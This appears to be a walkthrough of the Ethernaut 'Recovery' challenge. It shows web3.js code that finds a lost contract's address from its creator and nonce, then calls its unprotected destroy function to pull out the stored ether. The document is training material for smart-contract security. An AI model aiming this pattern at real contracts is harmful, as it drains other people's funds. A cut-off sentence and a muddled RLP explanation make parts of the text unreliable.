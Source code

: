 # Recovery

# Problem Statement
```
A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent 0.001 ether to obtain more tokens. They have since lost the contract address.

This level will be completed if you can recover (or remove) the 0.001 ether from the lost contract address.
```

# Solution
Looking at the contract note there is a `destroy` function that has an input parameter to send the ether to when it is called.<br>
So all we need to do is to find the address of the `Recovery` contract and be ab

## Solution 1: Use etherscan
Find transaction where the instance was created. Find the `SimpleToken` contract address and call the `destroy` method:
```
const simpleTokenAddress = "0xTHE_SIMPLE_TOKEN_CONTRACT_ADDRESS_FROM_ETHERSCAN";
const data = web3.eth.abi.encodeFunctionCall({
  name: 'destroy',
  type: 'function',
  inputs: [{
    type: 'address',
    name: '_to'
  }]
}, [player])
await web3.eth.sendTransaction({
  to: simpleTokenAddress,
  from: player,
  data: data
})
```
Though what if you also lost the transaction? Let's find the answer in Solution 2.

## Solution 2: Regenerate the address
This is the actual solution as the goal of this lesson is to show that you can regenerate the address created by another address.<br>
From the [docs](https://docs.soliditylang.org/en/v0.8.15/introduction-to-smart-contracts.html):
```
The address of an external account is determined from the public key while the address of a contract is determined at the time the contract is created (it is derived from the creator address and the number of transactions sent from that address, the so-called “nonce”).
```
To find the address we need to use [RLP](https://github.com/ethereum/wiki/wiki/RLP). This encoding of a normal ethereum 20-byte/160-bit address is `0xd6` and `0x94`. The RLP is `0x01` which is `1`. We can use the `web3`' library to generate the address:
```
const simpleTokenAddress = web3.utils.soliditySha3("0xd6", "0x94", contract.address, "0x01").slice(26)
```
Now, just call the `destroy` function with this address:
const data = web3.eth.abi.encodeFunctionCall({
  name: 'destroy',
  type: 'function',
  inputs: [{
    type: 'address',
    name: '_to'
  }]
}, [player])

// This will call the destroy method
await web3.eth.sendTransaction({
  to: simpleTokenAddress,
  from: player,
  data: data
})

We've completed this lesson!

# Key Learnings
- The actions of an account is never anonymous on the Ethereum blockchain. Anyone can follow an account's transactions and future derived contract addresses.
